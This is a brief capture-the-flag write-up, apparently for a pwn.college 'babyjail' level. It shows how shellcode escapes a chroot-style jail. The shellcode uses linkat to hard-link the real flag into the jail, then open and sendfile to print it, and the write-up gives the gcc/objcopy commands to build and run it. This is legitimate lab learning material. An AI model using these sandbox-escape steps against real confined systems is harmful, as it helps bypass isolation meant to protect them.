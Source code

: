 Now, the problem is that the program does not allow to call the function `openat`.
Instead, it allows the function `linkat` and `open`.

The function `open` cannot get out of the jail.
Thus, we have to use `linkat` to make a hard link for the real flag file.

Use the following code to solve this problem.
```
linkat(3, "./flag", 3, "/real_flag", 0);  # Create the hard link between the top-level directory and the one in jail.
open("/real_flag", O_RDONLY);
sendfile(1, 4, 0, 0x80);
```

One thing to note is that the calling convention for system calls is different from one for user-level function.
The sequences are `RDI`, `RSI`, `RDX`, `R10`, `R8`, and `R9`.

Running the following commands will lead you to the flag.
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level5_teaching1 / < ~/shellcode-raw
```